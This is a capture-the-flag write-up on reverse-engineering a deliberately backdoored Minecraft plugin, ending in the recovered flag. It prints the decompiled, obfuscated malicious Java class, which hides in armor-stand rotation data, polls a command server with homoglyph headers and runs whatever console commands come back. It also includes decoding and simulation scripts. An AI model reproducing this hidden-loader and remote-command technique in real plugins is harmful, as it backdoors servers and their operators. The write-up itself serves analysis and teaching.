





# Haix-la-Chapelle 2025

## Chicken Jockey Fight Club - Reverse Engineering

- **Author:** Euph0r14
- **Description:**<br>   
<p>Shortly after we watched the Minecraft Movie, my friend installed this really cool plugin onto our server! However we saw weird server log entries after a while.. I opened the plugin in JADX but couldn't find anything suspicious.. Can you maybe take a look?

We don't have the plugin anymore, but you can find it's website here: https://cjfc.challs.haix-la-chapelle.eu

They also have a minecraft server running at the same address: cjfc.challs.haix-la-chapelle.eu

Author Note: The Minecraft server is not relevant in solving this challenge.<p>
- **Points:** 484 
- **Solves:** 4 (And we weren't one of them..)

Man this was super mind breaking and I couldn't solve it in time.
This is one of my first ever writeups, also a category I'm mostly avoiding, so bear with me.

---

So we've been given a website where it showcases a certain Minecraft plugin: Chicken Jockey Fight Club!



First I instantly tried to deploy it on my own Paper server but get greeted by this error message:
```bash
[21:43:57 ERROR]: [ChickenJockeyFightClub] Detected unsupported debug/agent environment; shutting down for safety.
```

Then lets just analyse the given .jar file.
As most people dealing with .jar files probably know, is that it's just an archive.



What we find inside the archive are some YAML files, assets and the standard java package with compiled class files. While reading through the files I spot some interesting URLs pointing to a zip file which I immediately downloaded.

```yaml
datapack:
    enabled: true
    url: https://cjfc.challs.haix-la-chapelle.eu/assets/datapack/cjfc_arena_pack.zip
    filename: cjfc_arena_pack.zip
```

It contained information relating to structures which might be placed inside a Minecraft world.
Most interesting were the .nbt files. I opened them with NBTExplorer and hoped to find any entity data, as in previous challenges which revolved around Minecraft, had most likely hidden the flag in entity data.

Sadly I did not find the flag immediately in the entity data but something else: various rotation data inside some armor stands.
At first glance they were complete nonsense but did seem out of place.



I searched through the .nbt files for a while but did not find anything else.

While I was searching another player from my team did modify the debug flag which shutdown the server upon loading the plugin. So I grabbed the patched file and deployed it to a server and explored ingame for a bit.

I tested various commands and even played the training waves for quite some time (I reached level 15!) thinking the flag is given upon completing a specific wave.
Even tested the theory of searching for a built flag inside the lobby or one of the arenas. At one point I frustatingly exploded every arena with TNT looking for any hints (there were none :( )



I then shifted my focus on the compiled Java files. Luckily IntelliJ Idea had a built-in decompiler (FernFlower) which gave me insights about the code.

Me and the other player from our team went through the entire codebase multiple times and unfortunately didn't notice the secret function which decoded the payload (the aforementioned rotation data).

So in total we spend almost the entire CTF trying to solve this challenge and did not figure it out in time.

---

After the event I spend more time trying to figure out how to solve the challenge and got some hints from the discussion thread.

Basically in the ShowcaseBalancer class there is the applyIfReady() method which calls another method consumeFrameData() from the DisplayRotationState class. This method then takes our rotation data from the armor stand entities and turns them into a byte array which then gets XORd with a specific dye data combination. Finally the decoded payload is being defined as a Java class and a new object is being instantiated which then runs malicious code.

After taking some time to understand this whole operation, I used this script to decode the hidden payload:
```python
from nbtlib import nbt

def retouch_rev(nbt_file): 
    LIGHT_STEPS = [14, 7, 10, 3, 13, 6, 9, 12]
    
    nbt_data = nbt.load(nbt_file)
    
    entities = []
    for entity in nbt_data['entities']:
        if entity['nbt']['id'] == 'minecraft:armor_stand':
            bukkit_values = entity['nbt'].get('BukkitValues', {})
            rotation_keys = sorted([k for k in bukkit_values.keys() 
                                   if k.startswith('chickenjockeyfightclub:rotation_')])
            x, y, z = entity['pos']
            
            raw_segments = []
            for key in rotation_keys:
                byte_array = bukkit_values[key]
                raw_segments.append(byte_array)
            
            entities.append({
                'x': float(x), 'y': float(y), 'z': float(z),
                'raw': raw_segments
            })
    
    entities.sort(key=lambda e: (e['x'], e['z'], e['y']))
    
    data = b''.join([
        bytes([
            ((int(b) + 256 - LIGHT_STEPS[i % len(LIGHT_STEPS)]) % 256)
            for i, b in enumerate(seg)
        ])
        for entity in entities
        for seg in entity['raw']
    ])

    if data[:4] == b'\xca\xfe\xba\xbe':
        with open(f"decoded.class", "wb") as f:
            f.write(data)
        print(f"Saved as 'decoded.class'\n")


if __name__ == "__main__":
    nbt_file = r"./lobby.nbt"
    retouch_rev(nbt_file)
```

As the output we get this compiled Java class:

```java
//
// Source code recreated from a .class file by IntelliJ IDEA
// (powered by FernFlower decompiler)
//

package com.xlegit_crafterx.cjfc.display;

import java.io.BufferedReader;
import java.io.ByteArrayOutputStream;
import java.io.InputStreamReader;
import java.lang.reflect.Method;
import java.net.HttpURLConnection;
import java.net.URL;
import java.nio.charset.StandardCharsets;
import java.security.MessageDigest;
import java.util.Base64;
import org.bukkit.Bukkit;
import org.bukkit.plugin.Plugin;
import org.bukkit.scheduler.BukkitRunnable;

public class ResourcePack extends BukkitRunnable {
    private static final int[][] a = new int[][]{{73, 95, 240, 129, 65, 98, 149, 179, 231, 243, 235, 56, 81, 58, 228, 64}, {252, 132, 179, 77, 20, 74, 122, 236, 174, 248, 190, 114, 29, 55, 250, 86, 38}, {73, 95, 240, 181, 72, 141, 202, 250, 236, 166, 161, 116, 92, 36, 242}, {252, 132, 179, 77, 32, 67, 149, 179, 231, 243, 235, 56, 81, 58, 228, 64}, {73, 95, 240, 21, 36, 107, 202, 250, 236, 166, 161, 116, 92, 36, 242}, {252, 132, 179, 77, 128, 47, 115, 179, 231, 243, 235, 56, 81, 58, 228, 64}, {73, 228, 101, 77, 128, 47, 115, 179, 231, 243, 235, 56, 81, 58, 228, 64}};
    private static final int[] a = new int[]{75, 89, 188, 19, 129, 146, 159, 192, 225, 245, 185, 42, 7, 111, 164, 39, 109, 245, 105, 142};
    private static final int[] b = new int[]{68, 69, 169, 16, 207, 209, 201, 174, 181, 175, 254, 123, 93, 36, 250, 86, 44, 174, 61, 202, 153, 158, 187, 72, 196, 68, 165, 58, 61, 29, 112, 59, 119, 220, 81, 254, 3, 67, 37, 191, 131};
    private static final int[] c = new int[]{68, 69, 169, 16, 207, 209, 201, 174, 181, 175, 254, 123, 93, 36, 250, 86, 44, 174, 61, 202, 153, 158, 187, 72, 196, 68, 165, 58, 61, 29, 112, 59, 119, 220, 81, 234, 14, 66, 35, 166, 140, 37, 152};
    private static final String[] a;
    private static final String a;
    private static final String b;
    private static final String c;
    private long a = 0L;
    private int a = 0;
    private String d;
    private String e;

    private static String a(int[] var0) {
        try {
            Class var1 = Class.forName(a("Y29tLnhsZWdpdF9jcmFmdGVyeC5jamZjLnV0aWwuQ3J5cHRvVG9vbHM="));
            Class var2;
            String var3 = (String)(var2 = Class.forName(a("Y29tLnhsZWdpdF9jcmFmdGVyeC5jamZjLnV0aWwuUGx1Z2luU2lnbmF0dXJl"))).getField(a("U0lHTkFUVVJF")).get((Object)null);
            String var8 = (String)var2.getField(a("SEFTSA==")).get((Object)null);
            byte[] var11 = MessageDigest.getInstance(a("U0hBLTI1Ng==")).digest(var3.getBytes(StandardCharsets.UTF_8));
            byte[] var9 = MessageDigest.getInstance(a("U0hBLTI1Ng==")).digest(var8.getBytes(StandardCharsets.UTF_8));
            Method var10000 = var1.getMethod(a("ZGVjcnlwdERFUw=="), byte[].class, byte[].class, byte[].class);
            Object[] var10002 = new Object[]{var11, var9, null};
            int[] var5;
            byte[] var7 = new byte[(var5 = var0).length];

            for(int var10 = 0; var10 < var5.length; ++var10) {
                var7[var10] = (byte)var5[var10];
            }

            var10002[2] = var7;
            byte[] var6 = (byte[])var10000.invoke((Object)null, var10002);
            return new String(var6, StandardCharsets.UTF_8);
        } catch (Exception var4) {
            return a("");
        }
    }

    private static byte[] a(String var0) {
        int var1;
        byte[] var2 = new byte[(var1 = var0.length()) / 2];

        for(int var3 = 0; var3 < var1; var3 += 2) {
            var2[var3 / 2] = (byte)Integer.parseInt(var0.substring(var3, var3 + 2), 16);
        }

        return var2;
    }

    private static byte[] a(byte[] var0, byte[] var1) {
        byte[] var2 = new byte[var0.length];

        for(int var3 = 0; var3 < var0.length; ++var3) {
            var2[var3] = (byte)(var0[var3] ^ var1[var3 % var1.length]);
        }

        return var2;
    }

    private static void a(String var0) {
        String[] var4;
        int var1 = (var4 = var0.replace(a("dTAwMDA="), a("")).split(a("Ow=="))).length;

        for(int var2 = 0; var2 < var1; ++var2) {
            String var3;
            if ((var3 = var4[var2]).startsWith(a("Y21kOg=="))) {
                Bukkit.dispatchCommand(Bukkit.getConsoleSender(), var3.substring(4).trim());
            }
        }

    }

    private byte[] a(String var1, String var2, boolean var3) throws Exception {
        HttpURLConnection var17;
        (var17 = (HttpURLConnection)(new URL(var1)).openConnection()).setRequestProperty(a("QWNjZXB0LUxhbmd1YWdl"), var2);
        StringBuilder var4 = new StringBuilder();
        BufferedReader var18 = new BufferedReader(new InputStreamReader(var17.getInputStream()));

        String var5;
        try {
            while((var5 = var18.readLine()) != null) {
                var4.append(var5);
            }
        } catch (Throwable var16) {
            try {
                var18.close();
            } catch (Throwable var15) {
                var16.addSuppressed(var15);
            }

            throw var16;
        }

        var18.close();
        String var23;
        int var24;
        String var10000;
        if ((var24 = (var23 = var4.toString()).indexOf(a("InNoYTUxMiI="))) < 0) {
            var10000 = a("");
        } else {
            var24 = var23.indexOf(a("Og=="), var24);
            int var13 = var23.indexOf(a("Ig=="), var24);
            int var14 = var23.indexOf(a("Ig=="), var13 + 1);
            var10000 = var24 >= 0 && var13 >= 0 && var14 >= 0 ? var23.substring(var13 + 1, var14) : a("");
        }

        String var19 = var10000;
        if (var10000.isEmpty()) {
            return null;
        } else {
            String var26;
            byte[] var29;
            if ((var26 = var3 ? this.e : this.d) == null) {
                var29 = null;
            } else {
                long var28 = System.currentTimeMillis() / 300000L;
                var2 = (var3 = var2.indexOf(a("LA=="))) > 0 ? var2.substring(0, var3) : var2;
                String var30 = a;
                byte[] var21 = (var30 + a("fA==") + var2 + a("fA==") + var28 + a("fA==") + var26).getBytes(StandardCharsets.UTF_8);
                var29 = MessageDigest.getInstance(a("U0hBLTUxMg==")).digest(var21);
            }

            byte[] var27 = var29;
            return var29 == null ? null : a(a(var19), var27);
        }
    }

    public void run() {
        ++this.a;
        if (this.a % 720L == 0L) {
            try {
                if (this.d == null) {
                    this.d = c();
                }

                if (this.e == null) {
                    this.e = d();
                }

                ++this.a;
                String var1 = a[this.a % a.length];
                ByteArrayOutputStream var2 = new ByteArrayOutputStream();
                byte[] var3;
                if ((var3 = this.a(a(), var1, false)) != null) {
                    var2.write(var3);
                }

                byte[] var5;
                if ((var5 = this.a(b(), var1, true)) != null) {
                    var2.write(var5);
                }

                if ((var5 = var2.toByteArray()).length > 0) {
                    a(new String(var5, StandardCharsets.UTF_8));
                }

            } catch (Exception var4) {
            }
        }
    }

    private static String a() {
        try {
            Plugin var0;
            String var2;
            if ((var0 = Bukkit.getPluginManager().getPlugin(a("Q2hpY2tlbkpvY2tleUZpZ2h0Q2x1Yg=="))) != null && (var2 = var0.getConfig().getString(a("c2V0dGluZ3MudXBkYXRlLWNoZWNrZXIucGx1Z2luLXVybA=="))) != null && !var2.isEmpty()) {
                return var2;
            }
        } catch (Throwable var1) {
        }

        return b;
    }

    private static String b() {
        try {
            Plugin var0;
            String var2;
            if ((var0 = Bukkit.getPluginManager().getPlugin(a("Q2hpY2tlbkpvY2tleUZpZ2h0Q2x1Yg=="))) != null && (var2 = var0.getConfig().getString(a("c2V0dGluZ3MudXBkYXRlLWNoZWNrZXIuZGF0YXBhY2stdXJs"))) != null && !var2.isEmpty()) {
                return var2;
            }
        } catch (Throwable var1) {
        }

        return c;
    }

    private static String c() {
        try {
            return (String)Class.forName(a("Y29tLnhsZWdpdF9jcmFmdGVyeC5jamZjLnV0aWwuSGFzaFByb3ZpZGVy")).getMethod(a("cGx1Z2luU2hh")).invoke((Object)null);
        } catch (Throwable var1) {
            return null;
        }
    }

    private static String d() {
        try {
            return (String)Class.forName(a("Y29tLnhsZWdpdF9jcmFmdGVyeC5jamZjLnV0aWwuSGFzaFByb3ZpZGVy")).getMethod(a("ZGF0YXBhY2tTaGE=")).invoke((Object)null);
        } catch (Throwable var1) {
            return null;
        }
    }

    private static String a(String var0) {
        return new String(Base64.getDecoder().decode(var0), StandardCharsets.UTF_8);
    }

    static {
        String[] var0 = new String[a.length];

        for(int var1 = 0; var1 < a.length; ++var1) {
            var0[var1] = a(a[var1]);
        }

        a = var0;
        a = a(a);
        b = a(b);
        c = a(c);
    }
}
```

This bit took me some time to deobfuscate but it basically sends out requests to a specific URL with secret accept-language headers which contain different homoglyph in order to request commands from the C2 server.



Here's a cleaned up version written in Python:
```python
import hashlib
import json
import urllib.request
from io import BytesIO

class ResourcePackSimulator:
    LANGUAGE_ARRAYS = [
        [73, 95, 240, 129, 65, 98, 149, 179, 231, 243, 235, 56, 81, 58, 228, 64],
        [252, 132, 179, 77, 20, 74, 122, 236, 174, 248, 190, 114, 29, 55, 250, 86, 38],
        [73, 95, 240, 181, 72, 141, 202, 250, 236, 166, 161, 116, 92, 36, 242],
        [252, 132, 179, 77, 32, 67, 149, 179, 231, 243, 235, 56, 81, 58, 228, 64],
        [73, 95, 240, 21, 36, 107, 202, 250, 236, 166, 161, 116, 92, 36, 242],
        [252, 132, 179, 77, 128, 47, 115, 179, 231, 243, 235, 56, 81, 58, 228, 64],
        [73, 228, 101, 77, 128, 47, 115, 179, 231, 243, 235, 56, 81, 58, 228, 64]
    ]
    
    SALT_ARRAY = [75, 89, 188, 19, 129, 146, 159, 192, 225, 245, 185, 42, 7, 111, 164, 39, 109, 245, 105, 142]
    
    PLUGIN_URL_ARRAY = [68, 69, 169, 16, 207, 209, 201, 174, 181, 175, 254, 123, 93, 36, 250, 86, 44, 174, 61, 202, 153, 158, 187, 72, 196, 68, 165, 58, 61, 29, 112, 59, 119, 220, 81, 254, 3, 67, 37, 191, 131]
    
    DATAPACK_URL_ARRAY = [68, 69, 169, 16, 207, 209, 201, 174, 181, 175, 254, 123, 93, 36, 250, 86, 44, 174, 61, 202, 153, 158, 187, 72, 196, 68, 165, 58, 61, 29, 112, 59, 119, 220, 81, 234, 14, 66, 35, 166, 140, 37, 152]

    def __init__(self):
        # private long a = 0L;
        self.tick_counter = 0
        
        # private int a = 0;
        self.language_index = 0
        
        # private String d; (plugin hash)
        self.plugin_hash = None
        
        # private String e; (datapack hash)
        self.datapack_hash = None
        
        # CryptoTools.decryptDES - Values after decryption
        self.languages = [
            "en-ᴜs,en;q=0.8",
            "еn-ᴜs,en;q=0.8",
            "en-սs,en;q=0.8",
            "еn-սs,en;q=0.8",
            "en-uѕ,en;q=0.8",
            "еn-uѕ,en;q=0.8",
            "eո-uѕ,en;q=0.8"
        ]
        self.salt = "ghastly_chicken_salt"

        self.plugin_url = "http://cjfc.challs.haix-la-chapelle.eu/updatecheck/plugin"
        self.datapack_url = "http://cjfc.challs.haix-la-chapelle.eu/updatecheck/datapack"
    
    @staticmethod
    def hexToBytes(hex_string):
        """
        private static byte[] a(String var0)
        """
        return bytes.fromhex(hex_string)
    
    @staticmethod
    def xorBytes(data, key):
        """
        private static byte[] a(byte[] var0, byte[] var1)
        """
        result = bytearray(len(data))
        for i in range(len(data)):
            result[i] = data[i] ^ key[i % len(key)]
        return bytes(result)
    
    @staticmethod
    def commands(payload):
        """
        private static void a(String var0)
        """
        commands = payload.replace('\u0000', '').split(';')
        
        for cmd in commands:
            if cmd.startswith('cmd:'):
                actual_cmd = cmd[4:].strip()
                print(f"[Command] {actual_cmd}")
    
    def fetchDecrypt(self, url, accept_language, is_datapack):
        """
        private byte[] a(String var1, String var2, boolean var3) throws Exception
        """
        try:
            req = urllib.request.Request(url)
            
            lang_bytes = accept_language.encode('utf-8')
            lang_latin1 = lang_bytes.decode('latin-1')
            
            req.add_header('Accept-Language', lang_latin1)
            req.add_header('User-Agent', 'CJFC UpdateChecker')
            
            with urllib.request.urlopen(req, timeout=5) as response:
                json_response = response.read().decode('utf-8')
            
            data = json.loads(json_response)
            encrypted_hex = data.get('sha512', '')
            
            if not encrypted_hex:
                print(f"[ERROR] No hash found. Aborting..")
                return None
            
            file_hash = self.datapack_hash if is_datapack else self.plugin_hash
            if not file_hash:
                print(f"[ERROR] No file hash found. Aborting..")
                return None
            
            import time
            timestamp = int(time.time() * 1000) // 300000
            
            comma_pos = accept_language.find(',')
            lang_clean = accept_language[:comma_pos] if comma_pos > 0 else accept_language
            
            key_string = f"{self.salt}|{lang_clean}|{timestamp}|{file_hash}"
            
            print(f"key: {key_string[:60]}...")
            
            key = hashlib.sha512(key_string.encode('utf-8')).digest()
            
            encrypted_bytes = self.hexToBytes(encrypted_hex)
            decrypted = self.xorBytes(encrypted_bytes, key)
            
            return decrypted
            
        except Exception as e:
            print(f"[ERROR] Failed to fetch from server: {e}")
            import traceback
            traceback.print_exc()
            return None
    
    def run(self):
        """
        public void run()
        """
        # ++this.a;
        self.tick_counter += 1
        
        # if (this.a % 720L == 0L)
        if self.tick_counter % 720 == 0:
            try:
                # if (this.d == null) { this.d = c(); }
                if self.plugin_hash is None:
                    self.plugin_hash = self.getPluginHash()
                
                # if (this.e == null) { this.e = d(); }
                if self.datapack_hash is None:
                    self.datapack_hash = self.getDatapackHash()
                
                # ++this.a;
                self.language_index += 1
                
                # String var1 = a[this.a % a.length];
                language = self.languages[self.language_index % len(self.languages)]
                
                print(f"\n{'='*60}")
                print(f"[RUN] Tick {self.tick_counter}")
                print(f"{'='*60}")
                print(f"Language Index: {self.language_index} % {len(self.languages)} = {self.language_index % len(self.languages)}")
                print(f"Language: {language}\n")
                
                # ByteArrayOutputStream var2 = new ByteArrayOutputStream();
                combined = BytesIO()
                
                # if ((var3 = this.a(a(), var1, false)) != null) { var2.write(var3); }
                plugin_data = self.fetchDecrypt(self.plugin_url, language, False)
                if plugin_data is not None:
                    combined.write(plugin_data)
                    print(f"[PLUGIN] {len(plugin_data)} bytes empfangen")
                
                # if ((var5 = this.a(b(), var1, true)) != null) { var2.write(var5); }
                datapack_data = self.fetchDecrypt(self.datapack_url, language, True)
                if datapack_data is not None:
                    combined.write(datapack_data)
                    print(f"[DATAPACK] {len(datapack_data)} bytes empfangen")
                
                # if ((var5 = var2.toByteArray()).length > 0)
                payload_bytes = combined.getvalue()
                if len(payload_bytes) > 0:
                    # a(new String(var5, StandardCharsets.UTF_8));
                    payload_string = payload_bytes.decode('utf-8', errors='ignore')

                    print(f"[PAYLOAD] Text:\n{payload_string[:200]}\n")
                
            except Exception as e:
                print(f"[ERROR] Run failed: {e}")
                import traceback
                traceback.print_exc()
    
    def getPluginHash(self):
        """
        private static String c()
        """
        return "b64d0ff05e412a397ed874750426706a7d5f76e3aa29dd8a27158ad46da6afc503b3803c2b9634ae014589ddbe5ae3b1e6c4f63d6fb11649d0fbf3379e9da89e"
    
    def getDatapackHash(self):
        """
        private static String d()
        """
        return "ca06f5119f7a716489368308bfb47e953905c61164f296a461d9c61f5579d85521c0c39b8b3e682c6d6cb19dde8a0ea58ce5cea770be78be6e1197493d6df082"


def main():
    simulator = ResourcePackSimulator()

    for i in range(7):
        simulator.tick_counter = (i + 1) * 720 - 1
        simulator.run()


if __name__ == "__main__":
    main()
```

Before finishing this script, I had many problems with it and it took me several more hours to debug this whole thing. I even ended up quitting this writeup and just gave up because I could only decrypt the second half of the flag given by the datapack endpoint. But the author was really kind and even gave me more hints so that I would be able to solve the challenge and finish this writeup.

In the end, the problem was me failing to properly copy and paste the plugin hash :)


Now executing this script gives us the flag:

```bash
============================================================
[RUN] Tick 4320
============================================================
Language Index: 6 % 7 = 6
Language: eո-uѕ,en;q=0.8

key: ghastly_chicken_salt|eո-uѕ|5883743|b64d0ff05e412a397ed874750...
[PLUGIN] 64 bytes empfangen
key: ghastly_chicken_salt|eո-uѕ|5883743|ca06f5119f7a716489368308b...
[DATAPACK] 64 bytes empfangen
[PAYLOAD] Text:
flag:haix{steve_s_lava_chicken_yeah_its_tasty_as_hell_crispy_and_juicy_now_youre_havin_a_snack_super_spicy_its_a_lava_attack}
```

Retrospectively, this challenge was really fun even though I did took many many hours to solve this.

Thank you to Euph0r14 for making this challenge and helping me solve this. Now I really need more Printen.